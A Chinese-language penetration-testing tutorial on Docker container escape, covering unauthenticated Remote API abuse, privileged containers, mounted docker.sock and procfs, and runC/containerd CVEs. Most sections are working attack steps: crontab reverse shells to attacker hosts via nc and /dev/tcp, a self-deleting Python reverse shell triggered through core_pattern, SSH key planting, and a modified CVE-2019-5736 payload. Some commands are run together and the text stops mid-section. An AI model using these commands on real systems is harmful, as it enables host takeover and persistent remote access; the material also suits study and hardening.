# 容器逃逸

## 前言

Docker 逃逸在渗透测试中面向的场景大概是这样，渗透拿到shell后，发现主机是docker环境，要进一步渗透，就必须逃逸到“直接宿主机”。甚至还有物理机运行虚拟机，虚拟机运行Docker容器的情况。那就还要虚拟机逃逸了。本文记录Docker逃逸相关技术重点、尽最大可能进行利用复现。

### 如何判断当前机器是否为Docker 容器环境

- Metasploit 中的 checkcontainer 模块、（判断是否为虚拟机，checkvm 模块）
该模块其实进行了如下操作：
- ⭐检查根目录下是否存在`.dockerenv`文件

```
ls -la
```



⭐检查 `/proc/1/cgroup` 是否存在含有docker字符串

```
cat /proc/1/cgroup
```

- 

```
```

```
```

- 检查是否存在container环境变量
通过`env` \ `PATH` 来检查是否有docker相关的环境变量，来进一步判断。

```
env
env $PATH
set
```

- 其他检测方式

如检测mount、fdisk -l列出所有分区 、判断PID 1的进程名等也可用来辅助判断。



### Docker逃逸的方法

docker架构图如下，其中对普通用户来说，最为熟悉的就是最外层的docker client和docker daemon，一个是docker命令行工具，另一个是dockerd后台进程。Docker Client通过命令行与Docker Damon通信。containerd则为docker和run的一个沟通



#### 危险的配置导致Docker 逃逸

由于"纵深防御" 和 "最小权限"等理念和原则落地，越来越难以直接利用漏洞来进行利用。另一方面，公开的漏洞，安全运维人员能够及时将其修复，当然，不免存在漏网之鱼。相反，更多的是利用错误的、危险的配置来进行利用，不仅仅Docker逃逸，其他漏洞也是，比如生产环境开启Debug模式导致漏洞利用等等。

> Docker已经将容器运行时的Capabilities黑名单机制改为如今的默认禁止所有Capabilities，再以白名单方式赋予容器运行所需的最小权限

##### Docker Remote API 未授权访问

**漏洞简述：**

docker remote api可以执行docker命令，docker守护进程监听在0.0.0.0，可直接调用API来操作docker。

通过docker daemon api 执行docker命令：

```bash
#列出容器信息，效果与docker ps一致。
curl http://<target>:2375/containers/json
#启动容器
docker -H tcp://<target>:2375 ps -a
```

**利用场景：**

通过对宿主机端口扫描，发现有2375端口开放，可以执行任意docker命令。我们可以据此，在宿主机上运行一个容器，然后将宿主机的根目录挂载至docker的/mnt目录下，便可以在容器中任意读写宿主机的文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

**漏洞利用：**

Vulhub提供了该漏洞的复现环境。



	- 利用方法1利用方法是，我们随意启动一个容器，并将宿主机的/etc目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

这里有一个现成的exp:

```bash
import docker
client = docker.DockerClient(base_url='http://victim-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc attacker-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

(其他反弹shell的形式也一样)

	- 利用方法2


随便启动一个docker,挂载点设置为服务器的根目录挂载至/mnt目录下。

```bash
sudo docker -H tcp://203.0.113.1:2375 run -it -v /:/mnt nginx:latest /bin/bash
```

在容器内执行命令，将反弹shell的脚本写入到/var/spool/cron/root

```
echo '* * * * * /bin/bash -i >& /dev/tcp/203.0.113.1/12345 0>&1' >> /mnt/var/spool/cron/crontabs/root
```

本地监听端口，获取对方宿主机shell。

	- 利用方法3Github上的exp：<https://github.com/Tycx2ry/docker_api_vul>

##### ⭐Docker 高危启动参数 -- privileged 特权模式启动容器

特权模式逃逸是一种最简单有效的逃逸方法，使用特权模式启动的容器时，docker管理员可通过mount命令将外部宿主机磁盘设备挂载进容器内部，获取对整个宿主机的文件读写权限，可直接通过chroot切换根目录、写ssh公钥和crontab计划任何等getshell。

> 当操作者执行docker run --privileged时，Docker将允许容器访问宿主机上的所有设备，同时修改AppArmor或SELinux的配置，使容器拥有与那些直接运行在宿主机上的进程几乎相同的访问权限。

**判断方法：**

特权模式起的容器，实战可通过`cat /proc/self/status |grep Cap`命令判断当前容器是否通过特权模式起（CapEff: 000000xfffffffff代表为特权模式起）


**利用方法：**

特权模式启动一个Ubuntu容器：

```bash
sudo docker run -itd --privileged ubuntu:latest /bin/bash
```

进入容器：
使用`fdisk -l` 命令查看磁盘文件：



fdisk -l命令查看宿主机设备为/dev/sda5(**一般是最大的那个**)，通过mount命令将宿主机根目录挂载进容器

> 在特权模式下，逃逸的方式很多，比如：直接在容器内部挂载宿主机磁盘，然后切换根目录。

新建一个目录：`mkdir /test`
挂载磁盘到新建目录：`mount /dev/sda5 /test`
切换根目录：`chroot /test`
**到这里已经成功逃逸了**，然后就是常规的反弹shell 和 写 SSH 了(和redis未授权差不多）。



写计划任务，反弹宿主机Shell：

```
echo '* * * * * /bin/bash -i >& /dev/tcp/203.0.113.1/1234 0>&1' >> /test/var/spool/cron/crontabs/root
```

如果要写SSH的话，需要**挂载宿主机的root目录到容器**:

```bash
docker run -itd -v /root:/root ubuntu:18.04 /bin/bashmkdir /root/.sshcat id_rsa.pub >> /root/.ssh/authorized_keys
```

然后ssh 私钥登录。

**其他参数：**
Docker 通过Linux namespace实现6项资源隔离，包括主机名、用户权限、文件系统、网络、进程号、进程间通讯。但部分启动参数授予容器权限较大的权限，从而打破了资源隔离的界限。

```
--cap-add=SYS_ADMIN 启动时，允许执行mount特权操作，需获得资源挂载进行利用。 --net=host 启动时，绕过Network Namespace --pid=host 启动时，绕过PID Namespace --DC02=host 启动时，绕过DC02 Namespace
```

#### 危险挂载导致Docker 逃逸

##### 挂载敏感目录（-v /:/soft）

漏洞测试：
将宿主机root目录挂载到容器

```bash
docker run -itd -v /root:/root ubuntu:18.04 /bin/bash
```

模拟攻击者写入ssh密钥

```
mkdir /root/.sshcat id_rsa.pub >> /root/.ssh/authorized_keys
```

利用私钥成功登录。获取宿主机权限。



##### ⭐挂载Docker Socket（docker.sock）

> 使用者将宿主机`/var/run/docker.sock`文件挂载到容器中，目的是能在容器中也能操作docker。

**概述：**

Docker采用C/S架构，我们平常使用的Docker命令中，docker即为client，Server端的角色由docker daemon扮演，二者之间通信方式有以下3种：

```
unix:///var/run/docker.sock(默认tcp://host:portfd://socketfd
```

Docker Socket是Docker守护进程监听的Unix域套接字，用来与守护进程通信——查询信息或下发命令。

**判断方法：**

实战中通过find命令，可查找类似docker.sock等高危目录和文件




相当于在docker里可以执行宿主机docker命令，这样的话，我们新启一个容器，挂载宿主机根目录，即可逃逸

**复现：**

1、首先创建一个容器并挂载/var/run/docker.sock：

```bash
docker run -itd -v /var/run/docker.sock:/var/run/docker.sock ubuntu
```

2、在该容器内安装Docker命令行客户端：

	- 安装方法一：

```bash
apt-updateapt-get install \apt-transport-https \ca-certificates \curl \gnupg-agent \software-properties-commoncurl -fsSL https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu/gpg | apt-key add -apt-key fingerprint 0EBFCD88add-apt-repository \"deb [arch=amd64] https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu/ \$(lsb_release -cs) \stable"apt-get updateapt-get install docker-ce docker-ce-cli containerd.io
```

	- ⭐安装方法二：`cat /etc/os-release`查看当前linux发型版本，准备安装docker客户端，方便操作docker



访问<https://download.docker.com/linux/debian/dists/，根据选择具体分支，去https://download.docker.com/linux/debian/dists/xxxxxx/pool/stable/amd64/下载.deb结尾的安装文件>

> 使用这种方式安装的好处是容器内一般都缺少很多基础组件，如果通过apt-get安装实测20分钟也装不完
> 

3、接着使用该客户端通过Docker Socket与Docker守护进程通信，发送命令创建并运行一个新的容器，将宿主机的根目录挂载到新创建的容器内部:

```bash
docker run -it -v /:/host ubuntu:latest /bin/bash
```



4、在新容器内执行chroot将根目录切换到挂载的宿主机根目录:

```
chroot /host
```



已成功逃逸到宿主机。



##### 挂载宿主机procfs

> 利用procfs通过写/proc/sys/kernel/core_pattern来进行逃逸，触发条件比较苛刻，需要有进程奔溃才能触发

```bash
docker run -itd -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern ubuntu (为了区分，挂载到容器的/host/目录下
```

> procfs是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的procfs挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用root权限，且没有开启User Namespace时

从2.6.19内核版本开始，Linux支持在/proc/sys/kernel/core_pattern中使用新语法。如果该文件中的首个字符是管道符|，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。

**Docker默认情况下不会为容器开启User Namespace**

> 一般情况下不会将宿主机的procfs挂载到容器中，然而有些业务为了实现某些特殊需要，还是会有。

**判断方法：**

实战中通过find命令，可查找类似`core_pattern`、`/proc/sys/kernel/core_pattern`等高危目录和文件

**复现：**

“在挂载procfs的容器内利用core_pattern后门实现逃逸“

**利用思路：**

攻击者进入到挂载了宿主机profs的容器，root权限，然后向宿主机的procfs写Payload

 1、在容器内创建反弹Shell的Exp，/tmp/.x.py (.为隐藏文件

```bash
apt-get updateapt-get install vimapt-get install gcc (用于编译一个可以崩溃的程序，容器环境下一般都不自带这些常用的工具，包括ping之类的。
```

```
#.x.pyimport osimport ptyimport socketlhost = "attacker-ip"lport = 10000def main(): s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s.connect((lhost, lport)) os.dup2(s.fileno(), 0) os.dup2(s.fileno(), 1) os.dup2(s.fileno(), 2) os.putenv("HISTFILE", "/dev/null") pty.spawn("/bin/bash") os.remove("/tmp/.x.py") s.close()if __name__ == "__main__": main()
```

2、写入core_pattern

```
echo -e "|/tmp/.x.py \rcore " > /host/proc/sys/kernel/core_pattern
```

执行完以上命令，然后运行'3'的崩溃程序之后，并没有接收到反弹的shell，

> 这是因为Linux转储机制对/proc/sys/kernel/core_pattern内程序的查找是在宿主机文件系统进行的，而我们的/tmp/.x.py是容器内路径。

**操作以下步骤：**

在Docker容器中运行`cat /proc/mounts | grep docker`拿到当前容器在宿主机上的绝对路径。

返回如下：

```
overlay / overlay rw,relatime,lowerdir=/var/lib/docker/overlay2/l/TDUPJY7LZWCBS33AOAEL32VYWZ:/var/lib/docker/overlay2/l/UDBKLTSYHMCC4J7DLMAK3JUMT2:/var/lib/docker/overlay2/l/ULFSCIS7UXEVHUTW5KPOWLQOK6:/var/lib/docker/overlay2/l/YQDQOJ3EJ3KELBHK5PFFUJ7RVT,upperdir=/var/lib/docker/overlay2/edbf849399cdbcd1d74d7e112b0d548e60e0e90754e3126f8b533ab395bf1dfb/diff,workdir=/var/lib/docker/overlay2/edbf849399cdbcd1d74d7e112b0d548e60e0e90754e3126f8b533ab395bf1dfb/work 0 0
```

从返回的内容中得到：

```
workdir=/var/lib/docker/overlay2/edbf849399cdbcd1d74d7e112b0d548e60e0e90754e3126f8b533ab395bf1dfb/work
```

**将之前的写入Payload的命令改为：**

```
echo -e "|/var/lib/docker/overlay2/edbf849399cdbcd1d74d7e112b0d548e60e0e90754e3126f8b533ab395bf1dfb/merged/tmp/.x.py \rcore " > /host/proc/sys/kernel/core_pattern
```

这样一来，Linux转储机制在程序发生崩溃时就能够顺利找到我们在容器内部的/tmp/.x.py了。

3、在容器内运行一个可以崩溃的程序

```
//test.cint main(void) {int *a = NULL;*a = 1;return 0;}
```

```
gcc test.c
```

执行之后，即可接收到反弹的shell

#### 程序漏洞导致Docker 逃逸

##### **Shocker 攻击**

漏洞描述：从Docker容器逃逸并读取到主机某个目录的文件内容。Shocker攻击的关键是执行了系统调用open_by_handle_at函数，Linux手册中特别提到调用open_by_handle_at函数需要具备CAP_DAC_READ_SEARCH能力，而Docker1.0版本对Capability使用黑名单管理策略，并且没有限制CAP_DAC_READ_SEARCH能力，因而引发了容器逃逸的风险。

漏洞影响版本： Docker版本< 1.0， 存在于 Docker 1.0 之前的绝大多数版本

（真实环境基本不会存在了）

github项目地址：[gabrtv/shocker: Shocker / Docker Breakout PoC (github.com)](https://github.com/gabrtv/shocker)


##### ⭐**runC容器逃逸漏洞（CVE-2019-5736）**

**漏洞简述：**
Docker 18.09.2之前的版本中使用了的runc版本小于1.0-rc6，因此允许攻击者重写宿主机上的runc 二进制文件，攻击者可以在宿主机上以root身份执行命令。
**利用条件：**
Docker版本 < 18.09.2，runc版本< 1.0-rc6，一般情况下，可通过 docker 和docker -version查看当前版本情况。

**利用步骤：**

1、下载poc

```
git clone https://github.com/Frichetten/CVE-2019-5736-PoC
```

2、修改Payload

```
vi main.gopayload = "#!/bin/bash \n bash -i >& /dev/tcp/203.0.113.1/12345 0>&1"
```

3、编译生成payload

```
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```

- ```

```


4、实战中可以curl等方式下载，这边直接使用docker cp放入容器
```

sudo docker cp ./main 248f8b7d3c45:/tmp

```
5、在容器中执行payload
```

## 修改权限chmod 777 main# 执行Payload./main

```
- 

6、在192.168.172.136上监听本地端口，成功获取宿主机反弹回来的shell：

#### Docker cp 命令容器逃逸攻击漏洞 CVE-2019-14271

漏洞描述：
当Docker宿主机使用cp命令时，会调用辅助进程docker-tar，该进程没有被容器化，且会在运行时动态加载一些libnss*.so库。黑客可以通过在容器中替换libnss*.so等库，将代码注入到docker-tar中。当Docker用户尝试从容器中拷贝文件时将会执行恶意代码，成功实现Docker逃逸，获得宿主机root权限。
影响版本：
Docker 19.03.0

#### ⭐**CVE-2020-15257**

**利用条件：**

> containerd 是一个控制 runC 的守护进程，提供命令行客户端和API

在**Containerd 1.3.9版本之前和1.4.0~1.4.2版本** （通过dockers version查询），使用了**--host**网络模式，会造成**containerd-shim** **API**暴露，通过调用API功能实现逃逸。

**判断方法：**
```

#判断是否使用host模式cat /proc/net/unix | grep 'containerd-shim'

```
```

